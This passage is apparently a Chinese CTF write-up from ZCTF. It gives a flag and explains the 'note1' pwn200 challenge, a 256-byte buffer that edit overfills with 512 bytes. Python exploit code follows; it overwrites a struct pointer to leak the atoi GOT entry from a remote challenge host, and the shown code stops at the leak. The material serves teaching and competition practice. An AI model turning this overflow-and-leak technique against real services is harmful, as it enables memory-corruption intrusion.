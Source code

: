 结果:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01faee85afff0348b2.png)

flag: ZCTF`{`Rea111Y_n33D_t0_9uesS_fl@g?`}`

note1(pwn200):

这题比较简单,是个菜单式的交互程序,分析程序的结构体,得到如下:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01a64938b8c37030c6.png)

可见content的长度为256,而在edit的时候,能够读入512字节,从而发送缓冲区覆盖,如下:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0185a916de114c976f.png)

结构体中有指针,泄露和利用都比较容易,利用代码如下:



```
__author__ = "pxx"
from zio import *
from pwn import *
#target = "./note1"
target = ("115.28.27.103", 9001)
def get_io(target):
r_m = COLORED(RAW, "green")
w_m = COLORED(RAW, "blue")
io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m)
return  io 
def new_note(io, title_t, type_t, content_t):
io.read_until("option---&gt;&gt;n")
io.writeline("1")
io.read_until("title:n")
io.writeline(title_t)
io.read_until("type:n")
io.writeline(type_t)
io.read_until("content:n")
io.writeline(content_t)
def show_note(io):
io.read_until("option---&gt;&gt;n")
io.writeline("2")
def edit_note(io, title_t, content_t):
io.read_until("option---&gt;&gt;n")
io.writeline("3")
io.read_until("title:n")
io.writeline(title_t)
io.read_until("content:n")
io.writeline(content_t)
def pwn(io):
new_note(io, 'aaa', 'aaa', 'aaa')
new_note(io, 'bbb', 'bbb', 'bbb')
new_note(io, 'ccc', 'ccc', 'ccc')
show_note(io)
atoi_got = 0x0000000000602068 - 0x80
content= 'a' * 256 + l64(0x01) + l64(0x01) + l64(0x01) + l64(atoi_got) + "bbb"
io.gdb_hint()
edit_note(io, 'aaa', content)
show_note(io)
io.read_until("title=, type=, content=")
data = io.read_until("n")[:-1]
print [c for c in data]
```